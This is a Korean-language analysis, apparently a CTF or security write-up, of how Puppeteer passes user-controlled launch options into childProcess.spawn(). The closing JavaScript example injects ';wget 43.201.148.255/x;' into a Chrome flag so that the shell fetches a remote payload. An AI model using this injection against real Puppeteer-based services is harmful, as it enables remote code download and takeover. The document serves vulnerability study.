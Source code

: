 `#launcher` 객체에서 호출하는 `.launch()` 메소드는 `ProductLauncher` 클래스 타입의 메소드로 위와 같이 구성되어있다. 
         
함수 내부를 보면, 유저로부터 입력받은 옵션 값을 `computeLaunchArguments()` 함수의 인자로 넘기고 있고, 앞에서 반환된 `launchArgs` 값을 `@puppeteer/browsers`에 구현된 `launch()`함수에 인자로 넘겨 호출한다.           
                   
```typescript 
export function launch(opts: LaunchOptions): Process {
  return new Process(opts);
}
```   
https://github.com/puppeteer/puppeteer/blob/puppeteer-v21.5.2/packages/browsers/src/launch.ts#L133       
      
`@puppeteer/browsers`에 `launch()` 함수는 `Process()`를 생성하고 있다.     
            
```typescript
export class Process {
  #executablePath;
  #args: string[];
  #browserProcess: childProcess.ChildProcess;
  ...
  constructor(opts: LaunchOptions) {
    this.#executablePath = opts.executablePath;
    this.#args = opts.args ?? [];
    
    ...
    this.#browserProcess = childProcess.spawn(
      this.#executablePath,
      this.#args,
      {
        detached: opts.detached,
        env,
        stdio,
      }
    );
    ...
  }
}
```     
https://github.com/puppeteer/puppeteer/blob/puppeteer-v21.5.2/packages/browsers/src/launch.ts#L116     

객체 생성 시, 크롬이 저장된 경로를 `this.#executablePath`에 저장하고 `childProcess.spawn()`를 통해 브라우저를 실행한다.      

즉, 유저에 의해 입력받은 옵션 값이 `childProcess.spawn()`의 두 번째 인자로 들어가는 것을 확인할 수 있다.    

### Chrome execution      
`chrome.exe --remote-debugging-port=9222 --user-data-dir=remote-profile.`      
             
https://blog.chromium.org/2011/05/remote-debugging-with-chrome-developer.html         
             
크롬 브라우저의 경우, 위 명령을 통해 브라우저를 실행하게 되는데 `puppeteer`에서는 `chrome` 파일 경로와 옵션 값들을 추가해 `childProcess.spawn()` 함수를 호출하여 브라우저를 실행하고 있다.          
          
```javascript
const { spawn } = require('child_process');

const child = spawn('echo',
            [
                '--no-sandbox',
                '--remote-debugging-port=;wget\t43.201.148.255/x;',
                '--user-data-dir=/app/notes'
            ],
            {
                shell: "/bin/sh",
            });
```        
                